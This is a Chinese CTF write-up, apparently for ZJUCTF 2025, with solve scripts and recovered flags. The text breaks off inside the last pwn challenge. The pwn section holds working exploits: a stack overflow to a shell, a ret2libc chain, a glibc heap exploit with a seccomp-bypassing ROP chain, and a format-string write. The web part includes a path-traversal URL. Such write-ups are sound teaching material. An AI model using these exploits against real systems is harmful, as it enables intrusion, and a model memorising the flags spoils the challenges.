

# writeup
## misc
### lab report 
刚拿到以为是空白隐写，找了半天没找到，随后ctrl+A发现找不到空白，还找了半天，最后发现只要喂给AI给合适的提示词就可以秒
### bingo
挺好玩的，我手推的，推出来是正确答案是第四列，后续弄了个脚本爆破验证了一下，确实是对的，脚本如下
```python
import numpy as np
import math
import itertools

# --- 辅助函数 ---

def is_prime(n):
    if n < 2: return False
    for i in range(2, int(math.sqrt(n)) + 1):
        if n % i == 0: return False
    return True

def is_composite(n):
    if n < 4: return False
    return not is_prime(n)

# --- 核心验证逻辑 ---

class PuzzleVerifier:
    def __init__(self):
        self.conditions = [
            [self.cond_00, self.cond_01, self.cond_02, self.cond_03, self.cond_04],
            [self.cond_10, self.cond_11, self.cond_12, self.cond_13, self.cond_14],
            [self.cond_20, self.cond_21, self.cond_22, self.cond_23, self.cond_24],
            [self.cond_30, self.cond_31, self.cond_32, self.cond_33, self.cond_34],
            [self.cond_40, self.cond_41, self.cond_42, self.cond_43, self.cond_44],
        ]

    # --- 条件函数定义 (0-based 索引) ---
    # 第 1 行
    def cond_00(self, g, a_s): return g[0, 0] == 1 and is_prime(np.sum(g))
    def cond_01(self, g, a_s): return np.sum(g) >= 12
    def cond_02(self, g, a_s): return np.sum(g[:, 1]) <= np.sum(g[:, 2]) and np.sum(g[:, 1]) % 2 == np.sum(g[:, 2]) % 2
    def cond_03(self, g, a_s): return np.sum(g[0, :]) < np.sum(g[:, 3])
    def cond_04(self, g, a_s): return any(np.sum(g, axis=1) == 5)

    # 第 2 行
    def cond_10(self, g, a_s): return g[1, 0] == 1
    def cond_11(self, g, a_s):
        odd_rows = sum(1 for r in range(5) if np.sum(g[r, :]) % 2 != 0)
        return (np.sum(g) <= 13) != (odd_rows >= 2)
    def cond_12(self, g, a_s): return sum(1 for r in range(5) if np.sum(g[r, :]) == 0) == 1
    def cond_13(self, g, a_s): return not is_prime(1) # 恒为 True
    def cond_14(self, g, a_s):
        for r in range(4):
            for c in range(4):
                if np.sum(g[r:r+2, c:c+2]) == 4: return True
        return False

    # 第 3 行
    def cond_20(self, g, a_s): # 中心格为 1，且两条对角线上的 1 数为合数
        if g[2, 2] == 0: return False
        total_diag_ones = np.trace(g) + np.trace(np.fliplr(g)) - g[2, 2]
        return is_composite(total_diag_ones)
    def cond_21(self, g, a_s): # 左上 3×3 区域至少 5 个为 1
        return np.sum(g[0:3, 0:3]) >= 5
    def cond_22(self, g, a_s): # 上下相邻均为1的格对不少于四对
        # 澄清：这是全局计数，计算有多少对 g[r,c]和g[r+1,c] 均为1。
        pairs = sum(1 for r in range(4) for c in range(5) if g[r, c] == 1 and g[r+1, c] == 1)
        return pairs >= 4
    def cond_23(self, g, a_s): # 上下相邻均为1的格对不多于六对
        # 澄清：同上，这是全局计数。
        pairs = sum(1 for r in range(4) for c in range(5) if g[r, c] == 1 and g[r+1, c] == 1)
        return pairs <= 6
    def cond_24(self, g, a_s): # 答案不是对角线
        return a_s['type'] not in ['diag', 'anti_diag']

    # 第 4 行
    def cond_30(self, g, a_s): # 此格相邻三格的勾数为偶数
        return (g[3, 1] + g[2, 0] + g[4, 0]) % 2 == 0
    def cond_31(self, g, a_s):
        a = np.sum(g[3, :]); b = np.sum(g[:, 1])
        return (a*a + b) % 5 <= 3 and a <= b
    def cond_32(self, g, a_s): # 全体勾的重心不偏右
        total_ticks = np.sum(g)
        if total_ticks == 0: return True
        weighted_sum = sum(c * g[r, c] for r in range(5) for c in range(5))
        return (weighted_sum / total_ticks) <= 2.0
    def cond_33(self, g, a_s): # 此行不是正确答案
        return not (a_s['type'] == 'row' and a_s['index'] == 3)
    
    # !!!!!!!!!!!!!!!!  已应用关键逻辑修正 !!!!!!!!!!!!!!!!
    def cond_34(self, g, a_s): # 如果没有...此题不可解
        # 新逻辑：我们的暴力方法没有“逻辑起点”，因此前提为真。
        # 我们假设此题可解，因此结论“不可解”为假。
        # 所以 "IF 真 THEN 假" -> 整个陈述为 False。
        return False
    # !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

    # 第 5 行
    def cond_40(self, g, a_s): return is_composite(np.sum(g[:, 3]) + np.sum(g[:, 1]))
    def cond_41(self, g, a_s): # 1 不是合数 XOR 此列是正确答案
        return True != (a_s['type'] == 'col' and a_s['index'] == 1)
    def cond_42(self, g, a_s): # 此列是勾数唯一最少的列
        col_sums = np.sum(g, axis=0)
        return all(col_sums[2] < s for i, s in enumerate(col_sums) if i != 2)
    def cond_43(self, g, a_s):
        row_has_3 = any("111" in "".join(map(str, g[r, :])) for r in range(5))
        col_has_3 = any("111" in "".join(map(str, g[:, c])) for c in range(5))
        return row_has_3 and col_has_3
    def cond_44(self, g, a_s):
        return np.trace(g) < 3 and np.trace(np.fliplr(g)) < 3

def check_grid_consistency(grid, assumed_solution, verifier):
    for r in range(5):
        for c in range(5):
            if bool(grid[r, c]) != verifier.conditions[r][c](grid, assumed_solution):
                return False
    return True

def count_full_lines(grid):
    count = sum(1 for r in range(5) if np.all(grid[r, :] == 1))
    count += sum(1 for c in range(5) if np.all(grid[:, c] == 1))
    if np.all(np.diag(grid) == 1): count += 1
    if np.all(np.diag(np.fliplr(grid)) == 1): count += 1
    return count

def main():
    verifier = PuzzleVerifier()
    possible_solutions = []
    for i in range(5): possible_solutions.append({'type': 'row', 'index': i, 'name': f'第 {i+1} 行'})
    for i in range(5): possible_solutions.append({'type': 'col', 'index': i, 'name': f'第 {i+1} 列'})
    possible_solutions.append({'type': 'diag', 'index': 0, 'name': '主对角线'})
    possible_solutions.append({'type': 'anti_diag', 'index': 0, 'name': '副对角线'})

    all_coords = list(itertools.product(range(5), range(5)))

    for assumed_solution in possible_solutions:
        print(f"\n{'='*40}\n[假设] 答案是: {assumed_solution['name']}\n{'='*40}")
        
        fixed_coords = set()
        s_type, s_index = assumed_solution['type'], assumed_solution['index']
        if s_type == 'row':
            for c in range(5): fixed_coords.add((s_index, c))
        elif s_type == 'col':
            for r in range(5): fixed_coords.add((r, s_index))
        elif s_type == 'diag':
            for i in range(5): fixed_coords.add((i, i))
        elif s_type == 'anti_diag':
            for i in range(5): fixed_coords.add((i, 4 - i))

        free_coords = [coord for coord in all_coords if coord not in fixed_coords]
        num_free = len(free_coords)
        total_combinations = 2**num_free

        for i in range(total_combinations):
            if i % 200000 == 0 and i > 0:
                print(f"  -> 正在检查组合 {i} / {total_combinations}...")

            grid = np.zeros((5, 5), dtype=int)
            for r, c in fixed_coords: grid[r, c] = 1
            
            binary_string = bin(i)[2:].zfill(num_free)
            for idx, (r, c) in enumerate(free_coords):
                grid[r, c] = int(binary_string[idx])

            if check_grid_consistency(grid, assumed_solution, verifier):
                print(f"\n  [成功] 找到一个逻辑自洽的棋盘 (组合 #{i})!")
                if count_full_lines(grid) == 1:
                    print("-" * 40)
                    print(f"!!! 找到唯一解！假设 {assumed_solution['name']} 成立 !!!")
                    print("最终棋盘格局:")
                    print(grid)
                    
                    flag_parts = ["".join(map(str, row)) for row in grid]
                    flag = "ZJUCTF{" + "_".join(flag_parts) + "}"
                    print("\n提交的 Flag:")
                    print(flag)
                    print("-" * 40)
                    return

    print("\n遍历所有可能性后，未能找到符合条件的唯一解。")

if __name__ == "__main__":
    main()
```
### JGS
四国军棋，拿了个二血，好玩，就是硬推，推理过程太多了真写不下，写个大致思路吧，首先根据特殊的移动来判断工兵，然后一直不能动的就是地雷，然后司令碰死军棋会暴露，通过这个来判断司令，随后中间就可以看出某些师长啊之类的，然后再判断炸弹的位置，本人和对家以及上家都比较方便看出炸弹，下家因为投降了不太好判断，只能排除法，最后一点一点去排来定坑位，下面是我当时手写推的草稿，没法完整记录了
## crypto
### crypt-it 
签到题，没啥好说的，脚本如下
```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
import base64

# --- 1. Read the private key from the PEM file ---
try:
    with open("private_key.pem", "rb") as key_file:
        private_key = RSA.import_key(key_file.read())
except FileNotFoundError:
    print("Error: private_key.pem not found. Make sure the private key file is in the same directory.")
    exit()

# --- 2. Read the encrypted message ---
# The message might be raw binary or Base64 encoded.
# This script will try to handle both.
try:
    with open("flag.enc", "rb") as encrypted_file:
        encrypted_message = encrypted_file.read()
except FileNotFoundError:
    print("Error: encrypted_message.bin not found. Make sure the encrypted message file is in the same directory.")
    exit()

# --- 3. Decrypt the message using RSA with OAEP padding ---
# Create a cipher object using the private key
cipher_rsa = PKCS1_OAEP.new(private_key)

# It's common in CTFs for the ciphertext to be Base64 encoded.
# We'll try to decode it first. If that fails, we'll assume it's raw binary.
try:
    # First, try decoding from Base64
    encrypted_message_decoded = base64.b64decode(encrypted_message)
    decrypted_message = cipher_rsa.decrypt(encrypted_message_decoded)
    print("Successfully decrypted after Base64 decoding.")
except (ValueError, TypeError):
    # If Base64 decoding fails, assume it's raw binary
    print("Could not decode as Base64. Attempting raw decryption.")
    try:
        decrypted_message = cipher_rsa.decrypt(encrypted_message)
        print("Successfully decrypted raw binary message.")
    except ValueError as e:
        print(f"Decryption failed. Error: {e}")
        print("This could be due to a wrong key, corrupted data, or incorrect padding scheme.")
        exit()

# --- 4. Print the decrypted flag/message ---
# The result is in bytes, so we decode it to a string to print it
try:
    flag = decrypted_message.decode('utf-8')
    print("\n----------- DECRYPTED MESSAGE -----------")
    print(flag)
    print("---------------------------------------")
except UnicodeDecodeError:
    print("\n----------- DECRYPTED MESSAGE (RAW BYTES) -----------")
    print(decrypted_message)
    print("-----------------------------------------------------")
    print("Note: The output could not be decoded as UTF-8. It is displayed above as raw bytes.")
    #ZJUCTF{RSA_encrypt_with_OAEP_is_secure!}
```
### prng study plus 1
随机数预测，没看懂咋做的，总之AI来N把梭，牛逼，AI给我生成的脚本如下
```python
import hashlib
import string
import itertools
from pwn import *
import math

# --- 连接信息 ---
HOST, PORT = "127.0.0.1", 52655

# 解决工作量证明
def solve_pow(challenge_suffix, target_hash):
    print(f"[*] 正在解决 PoW...")
    alphabet = string.ascii_letters + string.digits
    for p in itertools.product(alphabet, repeat=4):
        prefix = "".join(p)
        if hashlib.sha256((prefix + challenge_suffix).encode()).hexdigest() == target_hash:
            print(f"[+] PoW 找到解: {prefix}")
            return prefix
    return None

def solve():
    context.log_level = 'info'
    try:
        conn = remote(HOST, PORT)

        # 1. 解决 PoW
        conn.recvuntil(b'sha256(XXXX + ')
        suffix = conn.recv(16).decode()
        conn.recvuntil(b') == ')
        target_hash = conn.recv(64).decode()
        pow_solution = solve_pow(suffix, target_hash)
        if not pow_solution:
            log.error("PoW 无解")
            return
        conn.sendlineafter(b'Give me XXXX:', pow_solution.encode())

        # 2. 获取泄露的数字
        conn.sendlineafter(b'Level: ', b'1')
        conn.recvuntil(b'[')
        leaked_str = conn.recvuntil(b']', drop=True).decode()
        o = [int(x) for x in leaked_str.split(', ')]
        log.info(f"泄露的数字: {o}")

        # 3. 恢复参数 (最终鲁棒版)
        # 理论上PRNG为二阶，我们将用所有数据点来恢复p
        log.info("坚信模型为二阶，使用所有数据点恢复p...")

        # o_{n+2} = C1*o_{n+1} + C0*o_n
        # 我们可以建立4个方程:
        # eq0: o_2 = C1*o_1 + C0*o_0
        # eq1: o_3 = C1*o_2 + C0*o_1
        # eq2: o_4 = C1*o_3 + C0*o_2
        # eq3: o_5 = C1*o_4 + C0*o_3
        
        # 从任意两个方程对中消去C0和C1，都能得到一个p的倍数
        # (o_i*o_{j+1} - o_{i+1}*o_j)*C1 = o_{i+2}*o_j - o_{i+1}*o_{i+1}
        # (o_i*o_{j+1} - o_{i+1}*o_j)*C0 = o_{i+1}*o_{j+2} - o_{i+2}*o_{j+1}
        
        # 我们需要找到两个非零的p的倍数来求gcd
        p_multiples = []
        for i in range(3):
            for j in range(i + 1, 4):
                # 解方程组:
                # o_{i+2} = C1*o_{i+1} + C0*o_i
                # o_{j+2} = C1*o_{j+1} + C0*o_j
                
                # 使用克莱姆法则
                D = o[i+1]*o[j] - o[i]*o[j+1]
                if D == 0: continue
                
                N1 = o[i+2]*o[j] - o[i]*o[j+2]
                N0 = o[i+1]*o[j+2] - o[i+2]*o[j+1]

                # D*C1 = N1 (mod p), D*C0 = N0 (mod p)
                # 将其代入另一个未使用的方程 k
                for k in range(4):
                    if k == i or k == j: continue
                    # 验证: D*o_{k+2} = N1*o_{k+1} + N0*o_k (mod p)
                    val = D*o[k+2] - (N1*o[k+1] + N0*o[k])
                    if val != 0:
                        p_multiples.append(abs(val))
        
        if len(p_multiples) < 2:
            log.error("无法找到足够的p的倍数，题目可能存在其他陷阱")
            return
        
        p = p_multiples[0]
        for i in range(1, len(p_multiples)):
            p = math.gcd(p, p_multiples[i])
        
        log.success(f"恢复出素数 p: {p}")
        
        # 4. 求解二阶系数
        # 使用最早的两个方程
        det = o[1]*o[1] - o[0]*o[2]
        det_inv = pow(det, -1, p)
        C1 = (det_inv * (o[2]*o[1] - o[3]*o[0])) % p
        C0 = (det_inv * (o[1]*o[3] - o[2]*o[2])) % p
        log.success(f"系数: C1={C1}, C0={C0}")

        # 5. 预测完整序列
        output = list(o)
        while len(output) < 20:
            next_val = (C1 * output[-1] + C0 * output[-2]) % p
            output.append(next_val)
        log.info("预测的完整序列已生成")

        # 6. 提交答案
        for i in range(20):
            conn.sendlineafter(b'guess: ', str(output[i]).encode())
            log.info(f"Sent guess {i+1}/{20}")

        final_response = conn.recvall(timeout=2)
        log.success(f"成功! 服务器响应: \n{final_response.decode()}")

    except Exception as e:
        log.error(f"脚本执行出错: {e}")
    finally:
        if 'conn' in locals() and conn.connected():
            conn.close()

if __name__ == "__main__":
    solve()
#ZJUCTF{Qu@terni0n_1$_jvs7_mA7rIx}
```
## web
### 一觉醒来全世界计算能力下降一万倍
在调试台里面用complate什么什么的，叫什么忘了用来完成比赛的，这样可以0.00秒完成，但是还是不如AAA挂哥快，我勒个，看来只能给他负数的时间了，于是用传api的方式传一个负数的时间上去，脚本如下
```
fetch('/api/submit', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        username: "111",  // <-- 把这里换成你的名字
        elapsed_time: -1         // <-- 我们将时间设置为负数
    })
}).then(response => response.json()).then(data => {
    console.log("服务器响应:", data);
    // 提交后可以手动刷新一下排行榜
    // location.reload(); 
});
```
### 你说你不懂 Linux
AI神力，把html发给AI，AIN把梭，最后告诉我访问这个
```
http://127.0.0.1:65358/index.php?file=../../a.log/../FLAG.TXT.
```
就可以绕过
## rev
### hello-reverse
异架构，想着签到题不会这么难，于是直接shitf+F12找字符串，定位到关键地方，果然是明文存储，但是发现tmd一直都交不对，还有不可打印字符，后续发现是emoji，IDA的提取的时候自动把小端序改了回来，但是emoji不能改端序，导致出了不可打印字符，换成另一个端序打开就好了，是个喇叭的emoji
## hej


java，用
jadx-jui打开长这样，是个关于时间做seed，然后用seed生成随机数之后与flag异或，这个利用已知flag前缀为`ZJUCTF{`来进行异或，验证种子对不对，然后根据提示，时间戳是在比赛期间的，爆破一下就好了,为了适配，用java写的，让AI给我写的
```java

import java.nio.charset.StandardCharsets;
import java.util.Calendar;
import java.util.Date;
import java.util.Random;
import java.util.TimeZone;

// 脚本 B: 使用 Unix 时间戳 (秒) 作为种子
public class ZJUCTF2025Solver {

    public static void main(String[] args) {
        String targetString = "r¶5\u0082\u000fb1ô´ò+\u0006»\u0095k®´TnÛ*\u009dØgúþ>c2é´0G\u0013áÊúÁ|\u001c)\u001eîå3¤\bÞþç\n_\u008a\u0010óíÉ\u0013Áçñb7Q";
        byte[] targetBytes = targetString.getBytes(StandardCharsets.ISO_8859_1);

        Calendar cal = Calendar.getInstance(TimeZone.getTimeZone("UTC"));
        cal.set(2025, Calendar.NOVEMBER, 17, 0, 0, 0);
        cal.set(Calendar.MILLISECOND, 0);
        // 同样，提前16小时以防时区问题
        cal.add(Calendar.HOUR_OF_DAY, -16);
        long startTimeMillis = cal.getTimeInMillis();

        cal.add(Calendar.HOUR_OF_DAY, 16); // 加回来
        cal.add(Calendar.DAY_OF_YEAR, 10);
        long endTimeMillis = cal.getTimeInMillis();

        // === 关键修改：将毫秒时间戳转换为秒级时间戳 ===
        long startTimeSec = startTimeMillis / 1000;
        long endTimeSec = endTimeMillis / 1000;

        System.out.println("【方案 B】开始爆破 (使用 Unix 时间戳)...");
        System.out.println("搜索秒数范围: 从 " + startTimeSec + " 到 " + endTimeSec);

        byte[] randomBytes = new byte[64];
        byte[] potentialFlagBytes = new byte[64];

        // === 关键修改：遍历的是秒，而不是毫秒 ===
        for (long seed = startTimeSec; seed < endTimeSec; seed++) {
             if ((seed - startTimeSec) % 3600 == 0) { // 每3600秒（1小时）打印一次
                 System.out.println("...B 方案进度: 当前秒数 " + seed);
             }

            Random r = new Random(seed);
            r.nextBytes(randomBytes);
            for (int i = 0; i < 64; i++) {
                potentialFlagBytes[i] = (byte) (targetBytes[i] ^ randomBytes[i]);
            }

            if (startsWith(potentialFlagBytes, "ZJUCTF{".getBytes(StandardCharsets.ISO_8859_1))) {
                // 注意：这里打印时需要将秒转回毫秒才能看到正确日期
                validateAndPrint(seed * 1000, potentialFlagBytes, seed);
                return;
            }
        }
        System.out.println("\n【方案 B】在指定的时间范围内未找到 Flag。");
    }

    // 为方案B重载一个打印函数
    private static void validateAndPrint(long seedMillis, byte[] potentialFlagBytes, long actualSeed) {
        System.out.println("\n[!] 在种子 " + actualSeed + " (" + new Date(seedMillis) + ") 发现前缀匹配！正在验证...");
        int flagEndIndex = -1;
        for (int i = 0; i < potentialFlagBytes.length; i++) { if (potentialFlagBytes[i] == '}') { flagEndIndex = i; break; } }
        if (flagEndIndex != -1) {
            int flagLength = flagEndIndex + 1;
            byte[] flagPattern = new byte[flagLength];
            System.arraycopy(potentialFlagBytes, 0, flagPattern, 0, flagLength);
            boolean isPatternValid = true;
            for (int i = 0; i < potentialFlagBytes.length; i++) { if (potentialFlagBytes[i] != flagPattern[i % flagLength]) { isPatternValid = false; break; } }
            if (isPatternValid) {
                System.out.println("\n==============================================");
                System.out.println("!!! 成功找到 Flag !!!");
                System.out.println("所用的种子 (Unix 秒数): " + actualSeed);
                System.out.println("对应时间 (大约): " + new Date(seedMillis));
                System.out.println("Flag: " + new String(flagPattern, StandardCharsets.ISO_8859_1));
                System.out.println("==============================================");
            }
        }
    }

    private static boolean startsWith(byte[] source, byte[] prefix) {
        if (source.length < prefix.length) return false;
        for (int i = 0; i < prefix.length; i++) { if (source[i] != prefix[i]) return false; }
        return true;
    }
}
```
## pwn
### who_am_i
非常简单，读的时候溢出到command里面，再执行就好了

脚本如下
```python
from pwn import *

#context.log_level = 'debug'
#context.terminal = ['tmux', 'splitw', '-h']
def s(a):
    p.send(a)


def sa(a, b):
    p.sendafter(a, b)


def sl(a):
    p.sendline(a)


def sla(a, b):
    p.sendlineafter(a, b)


def r():
    p.recv()


def pr():
    print(p.recv())

def ru(a):
    return p.recvuntil(a)

def rl(a):
    return p.recvline(a)


def itr():
    p.interactive()


def debug():
    gdb.attach(p)

choice=2
if(choice==1):
    gdbscript='''
    b system
    c
    '''
    p = gdb.debug('./who_am_i',gdbscript=gdbscript)

elif(choice==2):
    p = remote('127.0.0.1',55953)
else:
    p = process('./who_am_i')
ru(b"Your choice: ")
sl(b"2")
payload=b"A"*50+b"/bin/sh\x00"
sl(payload)
ru(b"Your choice: ")
sl(b"1")
itr()
#ZJUCTF{n0w_u_know_wh@t_is_staCk_0VerfLow}
```
### revenge of who_am_i
**一血**
题目在上一个环境里面，所以上一个把context.log_level='DEBUG'取消，不然一次输出超过0xfff就会被截断，然后用
```bash
base64 revenge of who_am_i
```
就可以拷出来了，然后本地
```bash
base64 -d cha > pwn
```
就成功拿到下一题的题目
哦对，还可以在前一题的shell中运行
```bash
./lib/libc.so.6（好像是这个地方）
```
就可以看到本题用的libc环境，glibcallinone搞一个就行
然后这个题目存在栈溢出，可以打rop，然后printf还可以泄露libc和canary，不需要我们去打puts_plt puts_got的那一条链子了，但是还是有点问题，本地多调一下，脚本如下
```python
from pwn import *

#context.log_level = 'debug'
#context.terminal = ['tmux', 'splitw', '-h']
def s(a):
    p.send(a)


def sa(a, b):
    p.sendafter(a, b)


def sl(a):
    p.sendline(a)


def sla(a, b):
    p.sendlineafter(a, b)


def r():
    p.recv()


def pr():
    print(p.recv())

def ru(a):
    return p.recvuntil(a)

def rl(a):
    return p.recvline(a)


def itr():
    p.interactive()


def debug():
    gdb.attach(p)


choice=2
if(choice==1):
    gdbscript='''
    b printf
    c
    c
    c
    c
    c
    c
    finish
    '''
    p = gdb.debug('./pwn',gdbscript=gdbscript)
elif(choice==2):
    #127.0.0.1:55205
    p = remote('127.0.0.1',59806)
else:
    p = process('./pwn')
ru(b"Your choice: ")
sl(b"2")
payload=b"A"*50
sl(payload)
ru(payload)

stack=u32(p.recvn(4))&0xffffff00
print(hex(stack))

ru(b"Your choice: ")
sl(b"2")
payload=b"A"*53
sl(payload)
ru(payload)
p.recvn(1)
stack_addr=u32(p.recvn(4))
print(hex(stack_addr))

ru(b"Your choice: ")
sl(b"2")
payload=b"A"*65
sl(payload)
ru(payload)
p.recvn(1)
ret_addr=u32(p.recvn(4))
print(hex(ret_addr))
libc_start_main_addr=ret_addr-121
print(hex(libc_start_main_addr))
libc=ELF("./libc.so.6")
#libc_base=libc_start_main_addr-libc.sym["__libc_start_main"]
off=0xf7cd54a0-0xf7cb4000
libc_base=libc_start_main_addr-off
print(hex(libc_base))
system_addr=libc_base+libc.sym["system"]
binsh_addr=libc_base+next(libc.search(b"/bin/sh"))
#ret=libc.search(asm("ret")).__next__()+libc_base
puts_addr=libc_base+libc.sym["puts"]
sl(b"2")
payload=b"A"*50+p32(stack)+p32(stack_addr-0x10)+p32(0xdeadbeef)+p32(stack_addr)+p32(system_addr)+p32(0xdeadbeef)+p32(binsh_addr)
sl(payload)
ru(b"A")
sl(b"3")
itr()
#ZJUCTF{ea$iest_re72l1bc_u_know_r0p_w3ll}
```

### sandbox of who_am_i
最恶心的一集，具体有多恶心得看我和城堡老师的聊天记录

沙箱ban了execve和open，可以用ORW，然后open用openat替代。
```
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 ```
这里malloc超界，本来想着没有free怎么劫持啊，调试发现seccomp开沙箱会让bin里面有一大堆块，于是任意malloc，利用现有的小块，打environ,unsortedbin前面的，分配出来泄露libc，然后用fd指针泄露堆地址，然后bydglibc2.35对fd指针进行了加密，还要解密，12位12位异或回去去泄露heap基地址，libc里面拿到environ之后泄露栈地址，劫持用堆任意分配来拿分配栈地址，从而劫持返回地址，卡就卡在，他用exit退出的，不通过return 0返回，导致我没法拿到劫持返回地址，最后做出来是突然发现可以劫持read函数的返回地址，从而执行rop。还有，这玩意fd为什么是5啊，真恶心
exp如下
```python

from pwn import *


context.log_level = 'debug'
#context.terminal = ['tmux', 'splitw', '-h']
def s(a):
    p.send(a)


def sa(a, b):
    p.sendafter(a, b)


def sl(a):
    p.sendline(a)


def sla(a, b):
    p.sendlineafter(a, b)


def r():
    p.recv()


def pr():
    print(p.recv())

def ru(a):
    return p.recvuntil(a)

def rl(a):
    return p.recvline(a)


def itr():
    p.interactive()


def debug():
    gdb.attach(p)


choice=2
if(choice==1):
    gdbscript='''
    b printf

    c
    c
    c
    c
    c

    c
    c
    c
    c
    c
    c
    c
    c

    c
    c

    c
    c
    c
    c
    c
    c
    c
    c
    finish
    
    '''
    p = gdb.debug('./pwn',gdbscript=gdbscript)
elif(choice==2):
    #127.0.0.1:55205
    p = remote('127.0.0.1',52718)
else:
    p = process('./pwn')
sl(b"2")
sl(b"50")
payload=b"A"*63
sl(payload)
ru(payload)
p.recvn(1)
main_arena=u64(p.recvn(6).ljust(8,b'\x00'))
print(hex(main_arena))
off=0x7efea0e52ce0-0x7efea0c35000-0x3000
libc_base=main_arena-off
print(hex(libc_base))
libc=ELF("./libc.so.6")
env=libc_base+libc.sym['__environ']
sl(b"2")
sl(str(0x60).encode())
payload=b"A"*14*8
s(payload)
ru(payload)
fd=u64(p.recvn(6).ljust(8,b'\x00'))
print(hex(fd))
high=(fd&0xfff000000000)>>36
middle_high=((fd&0xfff000000)>>24)^high
middle_low=(((fd&0xfff000)>>12)^middle_high)-1
now_addr=(high<<36)+(middle_high<<24)+(middle_low<<12)+0xfe0
print(hex(now_addr))
true_fd=fd^(now_addr>>12)
print(hex(true_fd))
sl(b"2")
sl(str(0x62).encode())
fake_env=(true_fd>>12)^(env-0x80)
print(hex(env))
payload=b"A"*8*28+p64(fake_env)
sl(payload)
ru(b"Hello")
for i in range (3):
    sl(b"2")
    sl(str(0x72).encode())
    sl(b"A")
    ru(b"Hello")
sl(b"2")
sl(str(0x74).encode())
payload=b"A"*(16*8-1)
sl(payload)
ru(payload)
p.recvn(1)
stack_addr=u64(p.recvn(6).ljust(8,b'\x00'))
print(hex(stack_addr))
offset_addr=0x7ffd7a4568e8-0x7ffd7a456a08+0x240
print(hex(offset_addr))
ret_addr=(stack_addr-offset_addr)-8

sl(b"2")
sl(b"10")
off_heap=0x55e16aae2270-0x55e16aae2670

offret=0x7ffe5c1e24d0-0x7ffe5c1e2490
fake_stack=((true_fd-off_heap)>>12)^(ret_addr-offret-0x100)
print(hex(ret_addr))
payload=b"A"*32+p64(fake_stack)

sl(payload)
ru(b"Hello")


for i  in range(3):
    sl(b"2")
    sl(str(0x62).encode())
    sl(b"A")
    ru(b"Hello")


sl(b"2")
sl(str(0x64).encode())
openat=libc_base+libc.sym['openat']
rdi=0x2a3e5+libc_base
rsi=0x2be51+libc_base
rax=0x45eb0+libc_base
rdx_rbx=0x904a9+libc_base
read_addr=libc_base+libc.sym['read']
write_addr=libc_base+libc.sym['write']
payload=b""


payload+=(0x100-len(payload))*b"\x00"
#payload+=p64(ret_addr-offret-0x100+8)
payload+=b"/flag\x00\x00\x00"+p64(rsi)+p64(ret_addr-offret)+p64(rdi)+p64(0xFFFFFFFFFFFFFF9C)#AT_FDCWD
payload+=p64(rdx_rbx)+p64(0)*2
payload+=p64(openat)
payload+=p64(rdi)+p64(5)
payload+=p64(rsi)+p64(stack_addr)
payload+=p64(rdx_rbx)+p64(0x50)*2
payload+=p64(read_addr)
payload+=p64(rdi)+p64(1)
payload+=p64(rsi)+p64(stack_addr)
payload+=p64(rdx_rbx)+p64(0x50)*2
payload+=p64(write_addr)
sl(payload)

print(hex(ret_addr-offret-0x100))


itr()
```
### 2048
简单的格式化字符串，甚至都不用劫持返回地址，只要能够覆写score就可以拿下flag，调一调就能过
```python

from pwn import *


context.log_level = 'debug'
#context.terminal = ['tmux', 'splitw', '-h']
def s(a):
    p.send(a)


def sa(a, b):
    p.sendafter(a, b)


def sl(a):
    p.sendline(a)


def sla(a, b):
    p.sendlineafter(a, b)


def r():
    p.recv()


def pr():
    print(p.recv())

def ru(a):
    return p.recvuntil(a)

def rl(a):
    return p.recvline(a)


def itr():
    p.interactive()


def debug():
    gdb.attach(p)
choice=0
if(choice==1):
    gdbscript='''
    b main
    c
   
    '''
    p=gdb.debug("./target",gdbscript=gdbscript)
elif(choice==2):
    p=process("./target")
else:
    p=remote('127.0.0.1',50589)
score=0x503c

payload=b"%p"
sl(payload)
ru(b"unknown cmd: ")
leak=int(p.recvline().strip(),16)
print(hex(leak))
offset=0x558d425d018e-0x558d425d2000
tar=leak+score-offset-0x55f5fac3603c+0x55f5fac3103c
print(hex(tar))

payload=b"b"+f"%{0xffef}x".encode()+b"%22$hn"
payload+=(0x10-len(payload)+1)*b"A"
payload+=p64(tar)
payload+=(0x1f-len(payload))*b"A"
print(payload)
sl(payload)
payload=b"b"+f"%{0xffef}x".encode()+b"%22$hn"
payload+=(0x10-len(payload)+1)*b"A"
payload+=p64(tar+2)
print(payload)
sl(payload)
#debug()
sl(b"a")
itr()
```

### safe
**三血**
第一次做多线程pwn，看一看，就是存在unsafecode和safecode，safecode一直调用puts，unsafecode存在栈溢出，但是有个沙箱
```
In the sandbox...
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0x40000003  if (A != ARCH_I386) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x03 0x00 0x00000001  if (A == exit) goto 0007
 0004: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0007
 0005: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0007
